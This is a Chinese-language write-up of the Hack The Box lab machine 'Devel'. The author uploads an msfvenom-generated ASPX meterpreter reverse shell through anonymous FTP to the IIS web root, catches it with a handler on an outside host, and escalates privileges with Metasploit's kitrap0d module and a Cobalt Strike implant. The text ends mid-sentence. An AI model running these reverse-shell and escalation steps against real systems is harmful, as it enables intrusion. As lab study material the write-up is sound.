

# Devel

nmap扫描发现80端口和21端口，21端口的结果：

```aspx
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
| 09-08-23  07:52AM                 2910 met_rev_2233.aspx
|_03-17-17  05:37PM               184946 welcome.png
```

发现这是iis服务器的目录，传msf的马：

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.28 LPORT=39502 -f aspx > msfshell.asp
```

生成后连接ftp服务器讲马put上去。

然后msf监听：

```shell
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 10.10.14.28
exploit
```

拿到shell后发现要提权：

```shell
meterpreter > getuid
Server username: IIS APPPOOL\Web
meterpreter > sysinfo
Computer        : DEVEL
OS              : Windows 7 (6.1 Build 7600).
Architecture    : x86
System Language : el_GR
Domain          : HTB
Logged On Users : 2
Meterpreter     : x86/windows
```

这里wp给了个知识就是一般低权限用户传不了文件可以去temp目录：

```shell
meterpreter > pwd
c:\windows\system32\inetsrv
meterpreter > cd %TEMP%
meterpreter > pwd
C:\Windows\TEMP
```


这时候可以用background命令将这个session挂在后台：

```shell
meterpreter > background
[*] Backgrounding session 2...
```


msf有一个提权的建议模块：

```shell
msf6 exploit(multi/handler) > search local_exploit_suggester

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  post/multi/recon/local_exploit_suggester                   normal  No     Multi Recon Local Exploit Suggester


Interact with a module by name or index. For example info 0, use 0 or use post/multi/recon/local_exploit_suggester
```

使用它：

```shell
msf6 post(multi/recon/local_exploit_suggester) > show options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits


View the full module info with the info, or info -d command.

msf6 post(multi/recon/local_exploit_suggester) > set session 2
session => 2
msf6 post(multi/recon/local_exploit_suggester) > exploit

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 186 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move: The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Running check method for exploit 41 / 41
[*] 10.10.10.5 - Valid modules for session 2:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move   Yes                      The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!
 3   exploit/windows/local/ms10_015_kitrap0d                        Yes                      The service is running, but could not be validated.
 4   exploit/windows/local/ms10_092_schelevator                     Yes                      The service is running, but could not be validated.
 5   exploit/windows/local/ms13_053_schlamperei                     Yes                      The target appears to be vulnerable.
 6   exploit/windows/local/ms13_081_track_popup_menu                Yes                      The target appears to be vulnerable.
 7   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.
 8   exploit/windows/local/ms15_004_tswbproxy                       Yes                      The service is running, but could not be validated.
 9   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
 10  exploit/windows/local/ms16_016_webdav                          Yes                      The service is running, but could not be validated.
 11  exploit/windows/local/ms16_032_secondary_logon_handle_privesc  Yes                      The service is running, but could not be validated.
 12  exploit/windows/local/ms16_075_reflection                      Yes                      The target appears to be vulnerable.
 13  exploit/windows/local/ms16_075_reflection_juicy                Yes                      The target appears to be vulnerable.
 14  exploit/windows/local/ntusermndragover                         Yes                      The target appears to be vulnerable.
 15  exploit/windows/local/ppr_flatten_rec                          Yes                      The target appears to be vulnerable.
 16  exploit/windows/local/adobe_sandbox_adobecollabsync            No                       Cannot reliably check exploitability.
 17  exploit/windows/local/agnitum_outpost_acs                      No                       The target is not exploitable.
 18  exploit/windows/local/always_install_elevated                  No                       The target is not exploitable.
 19  exploit/windows/local/anyconnect_lpe                           No                       The target is not exploitable. vpndownloader.exe not found on file system
 20  exploit/windows/local/bits_ntlm_token_impersonation            No                       The target is not exploitable.
 21  exploit/windows/local/bthpan                                   No                       The target is not exploitable.
 22  exploit/windows/local/bypassuac_fodhelper                      No                       The target is not exploitable.
 23  exploit/windows/local/bypassuac_sluihijack                     No                       The target is not exploitable.
 24  exploit/windows/local/canon_driver_privesc                     No                       The target is not exploitable. No Canon TR150 driver directory found
 25  exploit/windows/local/cve_2020_1048_printerdemon               No                       The target is not exploitable.
 26  exploit/windows/local/cve_2020_1337_printerdemon               No                       The target is not exploitable.
 27  exploit/windows/local/gog_galaxyclientservice_privesc          No                       The target is not exploitable. Galaxy Client Service not found
 28  exploit/windows/local/ikeext_service                           No                       The check raised an exception.
 29  exploit/windows/local/ipass_launch_app                         No                       The check raised an exception.
 30  exploit/windows/local/lenovo_systemupdate                      No                       The check raised an exception.
 31  exploit/windows/local/lexmark_driver_privesc                   No                       The target is not exploitable. No Lexmark print drivers in the driver store
 32  exploit/windows/local/mqac_write                               No                       The target is not exploitable.
 33  exploit/windows/local/ms14_070_tcpip_ioctl                     No                       The target is not exploitable.
 34  exploit/windows/local/ms_ndproxy                               No                       The target is not exploitable.
 35  exploit/windows/local/novell_client_nicm                       No                       The target is not exploitable.
 36  exploit/windows/local/ntapphelpcachecontrol                    No                       The check raised an exception.
 37  exploit/windows/local/panda_psevents                           No                       The target is not exploitable.
 38  exploit/windows/local/ricoh_driver_privesc                     No                       The target is not exploitable. No Ricoh driver directory found
 39  exploit/windows/local/tokenmagic                               No                       The target is not exploitable.
 40  exploit/windows/local/virtual_box_guest_additions              No                       The target is not exploitable.
 41  exploit/windows/local/webexec                                  No                       The check raised an exception.

[*] Post module execution completed
```

从上往下试，exploit/windows/local/ms10_015_kitrap0d可以成功打通，然后读取flag即可。


尝试用cs，熟悉cs的操作：

```shell
meterpreter > upload ~/many-ctf/Ma!/artifactx86-1.exe %TEMP%
[*] Uploading  : /Users/feng/many-ctf/Ma!/artifactx86-1.exe -> C:\Windows\TEMP\artifactx86-1.exe
[*] Completed  : /Users/feng/many-ctf/Ma!/artifactx86-1.exe -> C:\Windows\TEMP\artifactx86-1.exe
meterpreter > execute -f  'C:\Windows\TEMP\artifactx86-1.exe'
Process 3992 created.
meterpreter >
```

上线之后，用taowu尝试提权，用juicypotato提权成功：

